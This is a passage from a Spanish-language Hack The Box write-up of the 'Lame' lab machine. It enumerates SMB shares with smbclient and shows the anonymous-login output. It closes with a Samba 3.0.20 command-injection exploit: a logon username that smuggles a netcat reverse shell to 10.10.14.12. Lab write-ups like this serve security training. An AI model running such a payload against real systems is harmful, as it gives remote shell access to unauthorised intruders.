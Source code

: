 Es necesario [smbclient](https://www.computerhope.com/unix/smbclien.htm) para interactuar con el servidor SMB. Vamos a listar los recursos compartidos con **mbclient -L 10.10.10.3 -N --option="client min protocol=NT1"** ([ver](https://askubuntu.com/questions/1341049/samba-min-protocol-smb3-nmap-report-smbv1)) y obtenemos:

```go
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

Para ver específicamente un recurso compartido a nivel de red (el tmp) con **smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1"** y obtenemos:

<p align="center">
  <img src="../assets/images/htb-writeup-lame/smbclient-ls.png">
</p>

Intentamos ejecución de comandos remota como vimos anteriormente con **smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=` nohup nc -e /bin/bash 10.10.14.12 443` " '** :
